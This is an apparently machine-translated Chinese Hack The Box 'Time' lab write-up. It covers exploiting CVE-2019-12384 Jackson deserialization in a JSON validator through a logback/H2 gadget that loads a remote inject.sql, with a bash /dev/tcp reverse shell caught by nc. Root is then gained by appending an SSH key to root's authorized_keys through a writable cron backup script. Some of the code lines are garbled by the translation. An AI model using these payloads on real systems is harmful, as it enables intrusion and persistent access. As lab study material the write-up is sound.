










# HTB 时间[报道]

> 原文：<https://infosecwriteups.com/htb-time-writeup-1c5b51a82eb7?source=collection_archive---------7----------------------->

## RCE 和 SSRF 的脆弱性

# 侦察和计数

Nmap TCP/UDP 扫描输出

# 据点

************端口 80/TCP http Apache httpd 2 . 4 . 41(Ubuntu)* * * * * * * * * * * * ***

这是一个在线 JSON 解析器站点。下拉菜单下有两个选项。(1.)美化(2。)Validate(beta！)

当我在美化文本框中输入一个简单的“测试这个网站”时，输出是 **Null。**

但是，当我在“Validate (beta！)”，它会抛出一些错误消息。

**验证失败:未处理的 Java 异常 com . faster XML . Jackson . core . jsonparseexception:无法识别的标记“Test”:应为(“true”、“false”或“null”)**

在谷歌上搜索，我遇到了不少与“**com . faster XML . Jackson . core . jsonparseexception**”相关的 CVE。然而，在几次尝试使用他们的**步骤重现**后，对我有效的是**CVE-2019–12384。**这利用了 RCE 和 SSRF 的漏洞。

# 反向外壳

## 第一步

使用此[链接](https://github.com/jas502n/CVE-2019-12384)创建 **inject.sql** 漏洞利用文件并保存。

替换:

> *调用 shell exec(' id>exploited . txt ')*

随着

> *调用 shell exec(' bash-I>&/dev/TCP/*IP*/1234 0>&1’)*

**第二步**

从站点执行代码时，启动`python -m SimpleHTTPServer`获取 inject.sql 文件

当执行 **inject.sql** 文件时，启动`nc -lvnp <port>`来删除 shell。

**第三步**

在 JSON 解析器站点中执行下面的脚本。

> *[" ch . QoS . log back . core . db . drivermanagerconnectionsource "，{ " URL ":" JDBC:H2:mem:；TRACE _ LEVEL _ SYSTEM _ OUT = 3；INIT = run script FROM '*[*http://IP:PORT/inject . SQL '*](http://10.10.14.17:8765/inject.sql')*" }]*

# 横向运动

在列举了当前用户之后，对我有用的工具是 pspy 32——它允许你看到其他用户运行的命令，cron 作业等，当它们执行时，不需要 root 权限。

使用这个工具，我发现/usr/bin/timer_backup.sh 在一段时间间隔后不断地被执行。

该脚本的内容显示，它将 zip 文件移动到根文件夹。这意味着根文件夹中的文件可能会被完全权限执行。脚本**/usr/bin/timer _ backup . sh**有写权限。

对于这台机器，我们还知道 SSH 端口是打开的。这意味着我们可以注入一个恶意代码，当它被执行时会给我们一个外壳。

# 权限提升

现在我们已经找到了攻击媒介，修改 **/usr/bin/timer_backup.sh** 脚本。

> *echo***echo*插入 SSH 公钥*** *> > /root/。ssh/authorized _ keys ">>/usr/bin/timer _ backup . sh*

**端口 22/tcp SSH OpenSSH**

一旦成功注入，timer_backup.sh 脚本将被执行，并将本地主机的 SSH 公钥保存到机器根目录的 authorized_keys 文件中。这将允许我们从本地主机帐户登录，如下所示。

**成功了！！！**

# 参考

*   [https://github.com/redisson/redisson/issues/1780](https://github.com/redisson/redisson/issues/1780)
*   [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
*   [https://github.com/jas502n/CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384)

# 我的其他 HTB 报道

*   [HTB·OMNI 报道——利用 SireRAT 开发 Windows 物联网核心](/htb-omni-writeup-7efdc6fd1c10)
*   [HTB·布莱克菲尔德撰文- ASREPRoast |字典攻击](/htb-blackfield-writeup-e7c3570aca00)
*   [HTB 文章-无限制文件上传| RCE |弱密码| d-bus 漏洞](/htb-passage-writeup-172490d4045e)
*   [HTB 学院报道-商业逻辑漏洞| ADM 集团](/htb-academy-writeup-bf518031e7f)
*   [HTB 医生特写-服务器端模板注入| Splunk 用友 RCE](/htb-doctor-writeup-61e589400875)
*   [HTB 工人报道-问题:打开 svn 端口>错误配置 svn 系统>无限制文件上传>错误配置设置](/htb-worker-writeup-74033203b785)
*   [HTB OpenKeyS writeup - OpenBSD 认证旁路| HTTP 头篡改|内核操作系统本地根漏洞利用](/htb-openkeys-writeup-531264648200)
*   [HTB 间谍邮件作者-群发邮件钓鱼| PyPi 包文件滥用| pip3](/htb-sneakymailer-writeup-bb32e94f593)
*   [HTB 总线报告-未经验证的 RCE |缓冲区利用|端口转发](/htb-buff-writeup-5d118ab695c0)
*   [HTB 虎斑猫记-目录遍历| LXD | RCE |弱密码](/htb-tabby-writeup-e5d25fb57329)
*   [HTB 熔丝报道-域控制器侦测|密码喷洒|暴力攻击| SeLoadDriverPrivilege Abuse](/htb-fuse-writeup-2c181d837b78)
*   [HTB 失策记- Bludit 3.9.2 密码暴力破解|安全策略绕过](/htb-blunder-writeup-6785bd826bfa)
*   [HTB 缓存写- SQL 注入| unauth Memcached 暴露凭证| Docker Linux 映像漏洞利用](/htb-cache-writeup-c3966ac8867c)
*   [HTB 远程报告- NFS 检查、CMS 利用、UsoSvc 服务权限利用](/htb-remote-writeup-eb18b1e09234)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！